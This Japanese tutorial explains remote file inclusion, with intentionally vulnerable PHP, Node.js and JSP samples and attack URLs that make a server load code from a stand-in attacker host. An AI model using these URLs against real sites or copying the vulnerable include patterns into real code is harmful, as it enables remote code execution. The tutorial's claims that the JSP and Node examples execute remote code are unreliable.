 ```yaml
---
title: リモートファイルインクルード
---
```


**リモートファイルインクルード（Remote File Inclusion, RFI）脆弱性について**

### **概要**

リモートファイルインクルード（RFI）脆弱性は、Webアプリケーションが外部から指定されたファイルをサーバー上に読み込み、実行する際に発生する脆弱性です。攻撃者は、悪意のあるスクリプトを含む外部ファイルを指定することで、リモートサーバーから任意のコードを実行させることができます。この脆弱性は、特に動的にファイルを読み込む機能を持つWebアプリケーションにおいて見られ、サーバーの完全な乗っ取りやデータの漏洩など、深刻な影響をもたらすことがあります。

---

### **脆弱性を持つコードの例と攻撃手法**

#### **PHP**

**脆弱なコード例:**
```php
<?php
$page = $_GET['page'];
include($page);
?>
```

**攻撃手法:**
攻撃者は、`page`パラメータにリモートのURLを指定して、悪意のあるコードを含むファイルを読み込ませます。

```bash
http://example.com/vulnerable.php?page=http://attacker.com/malicious_code.php
```

このURLを実行すると、`attacker.com`にある`malicious_code.php`がサーバー上で実行され、攻撃者はリモートでコードを実行できるようになります。

#### **Python**

**脆弱性のあるコードの例は一般的に存在しない**：
Pythonの標準的なWebフレームワーク（Flask、Djangoなど）では、リモートファイルのインクルード機能がデフォルトでサポートされていないため、リモートファイルインクルード脆弱性が発生することは一般的にありません。

#### **Node.js（Express）**

**脆弱なコード例:**
```javascript
const express = require('express');
const app = express();
const http = require('http');

app.get('/load', (req, res) => {
    const file = req.query.file;
    http.get(file, (response) => {
        let data = '';
        response.on('data', (chunk) => {
            data += chunk;
        });
        response.on('end', () => {
            res.send(data);
        });
    });
});

app.listen(3000);
```

**攻撃手法:**
攻撃者が次のようなリクエストを送信することで、悪意のあるスクリプトを読み込ませることができます。

```bash
http://localhost:3000/load?file=http://attacker.com/malicious.js
```

このリクエストを実行すると、`attacker.com`にある`malicious.js`がサーバーで実行される可能性があります。

#### **Java（JSP）**

**脆弱なコード例:**
```java
<% 
String page = request.getParameter("page");
RequestDispatcher dispatcher = request.getRequestDispatcher(page);
dispatcher.include(request, response);
%>
```

**攻撃手法:**
攻撃者が次のようにリクエストを送信すると、リモートファイルを含むことができます。

```bash
http://example.com/vulnerable.jsp?page=http://attacker.com/malicious.jsp
```

これにより、攻撃者は`attacker.com`にある`malicious.jsp`をリモートで実行させることができます。

---

### **防止策**

1. **外部からのファイルインクルードを禁止**:
   - `include`や`require`、`RequestDispatcher`などの機能に対して、リモートURLを受け付けないように制限します。

   **PHPの例**:
   ```php
   ini_set('allow_url_include', '0');  // リモートファイルのインクルードを無効化
   ```

2. **入力のバリデーション**:
   - ユーザーからの入力を検証し、外部ファイルへの参照やパスが含まれていないことを確認します。また、ホワイトリスト方式で許可されたファイルのみを読み込むようにします。

   **PHPの例**:
   ```php
   $whitelist = ['home.php', 'about.php', 'contact.php'];
   if (in_array($page, $whitelist)) {
       include($page);
   } else {
       echo "Invalid page request.";
   }
   ```

   **Javaの例**:
   ```java
   List<String> allowedPages = Arrays.asList("home.jsp", "about.jsp", "contact.jsp");
   if (allowedPages.contains(page)) {
       RequestDispatcher dispatcher = request.getRequestDispatcher(page);
       dispatcher.include(request, response);
   } else {
       response.getWriter().write("Invalid page request.");
   }
   ```

3. **リモートファイルの取得制限**:
   - アプリケーションでリモートファイルを読み込む必要がない場合、リモートファイルの取得を完全に無効にします。

4. **フレームワークの機能を利用**:
   - ファイルのインクルード処理を行う場合、可能な限り安全なフレームワークやライブラリを使用し、自作のインクルード処理を避けることで、リスクを最小限に抑えます。

---

**まとめ**:
リモートファイルインクルード脆弱性は、サーバー側で任意の外部ファイルを実行できる非常に危険な脆弱性です。入力のバリデーション、リモートファイルのインクルードを無効化する設定、ホワイトリスト方式でのファイル読み込みなどの防止策を適用することで、この脆弱性を防ぐことができます。